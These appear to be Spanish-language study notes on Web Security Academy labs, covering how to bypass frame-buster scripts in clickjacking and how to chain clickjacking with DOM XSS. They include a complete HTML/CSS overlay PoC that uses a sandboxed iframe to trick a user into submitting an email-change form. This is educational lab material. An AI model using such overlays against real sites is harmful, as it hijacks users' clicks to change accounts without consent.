 ![[Pasted image 20230208212400.png]]

### Clickjacking with a frame buster script 

Puede que una aplicacion este protegida contra el secuestro de clics con un script de captura de marcos. Una vez que encuentra un marco (**\<iframe\>**) simplemento lo elimina.

si creamos una PoC basica vemos que no nos carga la pagina:

![[Pasted image 20230208213821.png]]

**_esto puede indicarnos que tiene una proteccion contra marcos (mas alla de headers de seguridad)_**

Para evadir la eliminacion de marcos (frame busting) podemos agregar el atributo `sandbox="allow-forms"` en la etiqueta meta:

```bash
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}

	div {
		position:absolute;
		top:450px;
		left:70px;
		z-index: 1;
	}
</style>

<div>Click me</div>
<iframe src="https://0a8f0014031efa4bce9063ff003200a5.web-security-academy.net/my-account?email=yei@yei.c" sandbox="allow-forms"></iframe>
```

![[Pasted image 20230208214013.png]]

### CLICKJACKING + DOM-BASED XSS

La implementación de este ataque combinado es relativamente sencilla, suponiendo que el atacante haya identificado primero el exploit XSS. El exploit XSS luego se combina con la URL de destino del iframe para que el usuario haga clic en el botón o enlace y, en consecuencia, ejecute el ataque DOM XSS.

Si un campo de un formulario puede ser prellenado a traves de un paratro en la URL y este es vulnerable a XSS de algun tipo, podemos combinar el ataque de clickjacking con XSS para que al apretar el boton falso ejecute el XSS:

- El campo "**name**" es vulnerable a XSS 
- Wl boton "**Submit feedback**" activa el XSS
